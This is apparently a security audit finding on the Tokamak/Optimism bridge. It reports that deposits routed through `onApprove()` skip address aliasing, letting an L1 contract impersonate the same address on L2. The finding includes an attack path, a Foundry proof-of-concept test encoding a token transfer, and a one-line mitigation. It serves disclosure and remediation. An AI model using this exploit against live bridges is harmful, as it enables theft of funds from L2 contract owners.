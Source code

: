 Late Walnut Wombat

High

# L1 contract can evade aliasing, spoofing unowned L2 address

### Summary

A key property of the Optimism bridge is that all contract addresses are aliased. This is to avoid a contract on L1 to be able to send messages as the same address on L2, because often these contracts will have different owners. However, using the `onApprove()` function, this aliasing can be evaded, giving L1 contracts this power.

### Root Cause

When `depositTransaction()` is called on the Optimism Portal, we use [the following check](https://github.com/sherlock-audit/2024-08-tokamak-network/blob/main/tokamak-thanos/packages/tokamak/contracts-bedrock/src/L1/OptimismPortal2.sol#L548-L549) to determine whether to alias the `from` address:
```solidity
address from =
    ((_sender != tx.origin) && !_isOnApproveTrigger) ? AddressAliasHelper.applyL1ToL2Alias(_sender) : _sender;
```
As we can see, this check does not alias the address is `_isOnApproveTrigger = true`.

This flag is set whenever the deposit is triggered via a call to `onApprove()`. However, it is entirely possible for a contract to use this flow, and therefore avoid being aliased.

### Internal Preconditions

None

### External Preconditions

None

### Attack Path

1. A contract on L1 is owned by a different user than the contract address on L2. This is typical, for example, with multisigs or safes that deployed using CREATE.
2. It wants to send a message on behalf of the L2 contract. For example, it may want to call `transfer()` on an ERC20 to steal their tokens.
3. It calls `approveAndCall()` on the Native Token on L1, including the message it wants to send on L2.
4. This message is passed along to the Optimism Portal's `onApprove()` function, which sets the `_isOnApproveTrigger` flag to true, and doesn't alias the address.
5. The result is that the L2 message comes `from` the unaliased L1 address, and arbitrary messages (including token transfers) can be performed on L2.

### Impact

L1 contracts can send arbitrary messages from their own address on L2, allowing them to steal funds from the owners of the L2 contracts.

### PoC

The following standalone test can be used to demonstrate this vulnerability:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import { stdStorage, StdStorage, Test, console } from "forge-std/Test.sol";
import { OptimismPortal2 } from "../src/L1/OptimismPortal2.sol";
import { Constants } from "../src/libraries/Constants.sol";
import { L2NativeToken } from "../src/L1/L2NativeToken.sol";
import { ResourceMetering } from "../src/L1/ResourceMetering.sol";

contract MaliciousSafe {}

contract DummySystemConfig {
    address public nativeTokenAddress;

    constructor(address nativeToken) {
        nativeTokenAddress = nativeToken;
    }

    function resourceConfig() external view returns (ResourceMetering.ResourceConfig memory) {
        return Constants.DEFAULT_RESOURCE_CONFIG();
    }
}

contract POC is Test {
    using stdStorage for StdStorage;

    OptimismPortal2 portal;
    L2NativeToken token;

    event TransactionDeposited(address indexed from, address indexed to, uint256 indexed version, bytes opaqueData);

    function setUp() public {
        token = new L2NativeToken();
        DummySystemConfig config = new DummySystemConfig(address(token));

        portal = new OptimismPortal2(0, 0);
        stdstore.target(address(portal)).sig("systemConfig()").checked_write(address(config));

    }

    function testZach_noAlias() public {
        // we are sending from a safe, which isn't owned on L2
        address from = address(new MaliciousSafe());
        vm.startPrank(from);
        token.faucet(1);

        // let's make some transaction data
        // for example, transfer our addresses USDC on L2 to another address
        address to = makeAddr("L2USDC");
        uint value = 0;
        uint32 gasLimit = 1_000_000;
        bytes memory message = abi.encodeWithSignature("transfer(address,uint256)", address(1), 100e18);
        bytes memory onApproveData = abi.encodePacked(to, value, gasLimit, message);

        // confirm that the deposit transaction is:
        // from: from (non aliased)
        // to: L2USDC
        vm.expectEmit(true, true, false, false);
        emit TransactionDeposited(from, to, 0, bytes(""));

        // now we use approve and call to send the deposit transaction
        token.approveAndCall(address(portal), 1, onApproveData);
    }
}
```

### Mitigation

The `_sender != tx.origin` check is correct, even in the case that the call came via `onApprove()`, so the additional logic can be removed.
